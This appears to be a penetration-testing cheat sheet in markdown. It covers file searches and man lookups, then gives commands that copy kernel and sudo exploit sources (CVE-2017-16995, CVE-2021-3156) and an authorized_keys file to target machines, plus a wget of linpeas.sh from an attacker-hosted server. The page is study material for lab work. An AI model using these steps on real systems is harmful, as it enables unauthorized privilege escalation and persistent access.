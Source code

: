 Find files not owned by the user "root" less than 1 day ago in current directory
```bash
find . -mtime -1 ! -user root
```
- `.` 
	- Search current directory
- `-mtime -1` 
	- Filter files based on their modification time. `-1` specifies "less than 1 day ago" or "within the last 24 hours."
- `! -user root`: 
	- `!` symbol is a logical operator that negates the following condition. 
	- `-user root` specifies the condition to find files that are not owned by the user "root".

Search for a manual using keywords
```bash
man -k '^passwd$' 
```

Search the list of `man` page descriptions for a possible match based on a keyword
```bash
apropos partition
```

# File Sharing

#File_Sharing 

Transferring the source code to the target machine with secure copy
```bash
scp cve-2017-16995.c hentaisalesman@192.168.123.123:
```

Transferring files to target machine with `scp`
```bash
scp authorized_keys kali@192.168.50.200:/home/kali/Downloads/
```

Downloading binary with `wget`
```bash
wget http://192.168.50.200:8000/linpeas.sh
```

## File Compression

Creating tarball
```bash
tar -zcvf CVE-2021-3156.tar.gz CVE-2021-3156-main
```

Extracting tarball
```bash
tar -xvf archive.tar.gz
```

# Shell Access

